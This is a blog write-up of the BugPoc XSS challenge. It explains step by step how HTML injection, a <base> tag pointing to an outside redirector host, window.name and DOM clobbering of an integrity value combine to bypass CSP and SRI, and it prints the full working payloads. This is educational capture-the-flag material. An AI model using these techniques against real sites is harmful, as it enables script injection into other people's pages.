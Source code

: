 ```yaml
---
layout: post
title: "BugPoc XSS Challenge"
tags: [Xss]
comments: true
---
```


> I am not the one who solves this challenge quickly. After I got up, I saw that someone had submitted it 9 hours ago. But I learned something and some new thinking from this challenge, so I recorded it.Try to get the reward of the best blog.

### Challenge Details
[![](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)
Wacky Text Generator (https://wacky.buggywebsite.com)<br>
Rules: Must alert(origin), must bypass CSP, must work in Chrome, must provide a BugPoC demo

### Solving
#### Step 1 : Found html injection
I first opened the challenge page and checked the source code<br>
[![图片一](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")
Found a page https://wacky.buggywebsite.com/frame.html?param=Hello,%20World!<br>
Manual test parameter<br>
After finding the closed `<title>` tag. Can inject html code
[![](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)
In fact, when I first viewed this page, I first checked the source code of the page, read the js, and then discovered this html injection

#### Step 2 :Bypass CSP
Although we have found html injection, it cannot perform xss
[![](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)
Because
[![](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)
```
content-security-policy: script-src 'nonce-kplddkwaepak' 'strict-dynamic'; frame-src 'self'; object-src 'none';
```
You can use [this](https://csp-evaluator.withgoogle.com/ "this") to check csp security
[![](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain<br>
Just use the previously found html injection to inject `<base href="">`<br>
Since this is a ctf challenge, this may be a breakthrough. (If bugbounty, this may not have any effect).I did find relative (script) injection in the js at the bottom
[![](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)
But this has to be judged by `if (window.name =='iframe')`<br>
This site `x-frame-options: SAMEORIGIN` cannot use iframe<br>
But  we can set window.name through window.open()<br>
Such as
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=xss","iframe");
</script>
```
##### First try
```
if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
```
After reading this js, I initially thought it would create an iframe and write a `<script src="files/analytics/js/frame-analytics.js">` in it
[![](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)
I only need to inject the `<base>` tag, control the base-URL to my own domain , and upload a file `/files/analytics/js/frame-analytics.js`, load my own js.<br>
Use [bugpoc mock](https://bugpoc.com/testers/other/mock "bugpoc mock") to construct POC
[![](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)
Then use  [Flexible Redirector](https://bugpoc.com/testers/other/redir "Flexible Redirector") for 302 redirection
[![](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)
get https://le8497ljneda.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js content `alert(origin);`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no
[![](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)
##### Second
Read this [Subresource Integrity](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity "Subresource Integrity")<br>
This helps me understand what is happening<br>
After that I fell into a dead end,I have been thinking about how to bypass SRI,It took a while.(It seems that need to find a browser vulnerability to solve the problem, so the idea at the time was wrong)<br>
After changing mind, only try to modify the value of `integrity`
```
	<script nonce="lxggbsrloata">
	
		window.fileIntegrity = window.fileIntegrity || {
			'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
			'algorithm' : 'sha256',
			'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
			'creationtime' : 1602687229
		}
	
		// verify we are in an iframe
		if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
		
	</script>
```
To modify the value of `integrity` first,  must modify `fileIntegrity.value`.<br>

`window.fileIntegrity = window.fileIntegrity || {...}`<br>
Seeing this, I thought that as long as I created a `window.fileIntegrity` using the previously discovered html injection,  could change the `fileIntegrity.value`<br>
Due to the particularity of js language.For example,  `name` of `iframe`, `id` of `input`. In the unoccupied case, it will change from assignment to dom selector, so it can be used to hijack regular parameters (value href name id src ref..)Detail [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering "DOM clobbering")<br>
`<input id='fileIntegrity'  value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='>`   modify `fileIntegrity.value`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='aErQrfRCGgdInIpMEDCWj2%2bHQUab648smjdgPAUdBKU='><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no again
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)
`<iframe sandbox="allow-scripts allow-same-origin" class="invisible"></iframe>`<br>
But the security of using `allow-scripts` `allow-same-origin` at the same time is very low<br>
Because can manipulate the parent window.Just use the alert() of the parent window<br>
Modify the content of `/files/analytics/js/frame-analytics.js` to `window.parent.alert(origin);`<br>

###### Final Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='><base href='https://960ejm5yq2xy.redir.bugpoc.ninja/'>","iframe");
</script>
```
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)

### Conclusion
Sorry for my poor English<br>
In order for everyone to understand, the article is written in detail<br>
Although this challenge is simple, it does show that sometimes changing the way of thinking can make the problem very easy<br>
If you have any questions, welcome dm me([jinonehk](https://twitter.com/jinonehk "jinonehk"))
